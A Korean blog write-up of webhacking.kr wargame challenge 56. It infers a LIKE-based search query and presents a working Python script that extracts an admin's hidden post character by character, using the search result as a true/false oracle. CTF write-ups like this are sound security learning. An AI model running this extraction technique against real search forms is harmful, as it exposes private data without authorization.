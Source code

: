 ```yaml
---
title: "[webhacking.kr] 56번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "56번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 56번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/154011710-004a04fa-a91b-4a03-aed0-fe6d53a459a5.png)

  search 기능을 이용해서 admin의 게시글 내용을 알아내는 문제입니다.


# 문제 풀이
  게시글 찾기 기능을 사용할때 일반적으로 다음과 같은 sql 문을 통해서 db에서 찾아옵니다.

  ```sql
select * from chall56 where secret like '%{search}%'
  ```

  몇가지 실험 결과 위의 쿼리문으로 sql문이 구성된 걸로 추정되며, 이를 이용해서 다음과 같이 파이썬 코드로 게시글의 내용을 찾아낼 수 있습니다.

  문제를 풀 당시에는 맨 처음 단어가 FLAG일 것으로 추정하고 풀어서 빠르게 풀었지만, 보다 일반적으로 게시글 내용을 추정하기 위해서 하나의 글자에서 시작해서 뒤의 내용을 완성하고, 다시 앞의 내용을 완성하는 방식으로 searching을 진행했습니다.

  그리고 주의해야 할 점은, searching을 할때는 '%' 와 '_'의 사용을 주의해야 합니다.

  - '%' : 모든 임의의 문자열 의미 

  - '_' : 하나의 임의의 문자열 의미

  이때, 각각의 글자가 실제 특수문자의 기능이 아닌 하나의 글자로 동작하는 경우가 있기 때문에 searching의 맨 마지막에는 '_'가 존재하는지도 확인해 줍니다.

```python
import requests
import string

url = 'https://webhacking.kr/challenge/web-33/'
TRUE_FLAG = 'admin'
secret = 'a'
data = {}
exit = 0

# string.printable = '0123456789
#                     abcdefghijklmnopqrstuvwxyz
#                     ABCDEFGHIJKLMNOPQRSTUVWXYZ
#                     !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~'

# '%' 는 삭제하고, '_'는 맨 마지막에 추가
printable_string = string.printable
printable_string = printable_string.replace('%','')
printable_string = printable_string.replace('_','')
printable_string = printable_string + '_'


# a부터 뒷글자들을 먼저 맞춘다.
while exit==0:
    for character in printable_string:
        data['search'] = secret + character
        response = requests.post(url,data=data)
        if(TRUE_FLAG in response.text):
            secret = data['search']
            print('\r[+]',secret,end='')
            break
        if(character == printable_string[-1]):
            exit=1
            print("break while loop")


# 앞부분을 채워 넣기
exit = 0
while exit==0:
    for character in printable_string:
        data['search'] = character + secret
        response = requests.post(url,data=data)
        if(TRUE_FLAG in response.text):
            secret = data['search']
            print('\r[+]',secret,end='')
            break    

        if(character == printable_string[-1]):
            exit=1
            print("break while loop")
            print(secret)

```

코드 실행결과는 다음과 같이 나왔으며, 맨 앞의 \는 제거해 줍니다.

![image](https://user-images.githubusercontent.com/33647663/154013180-fee784f3-eca3-4852-aaae-c0d5f2c23140.png)

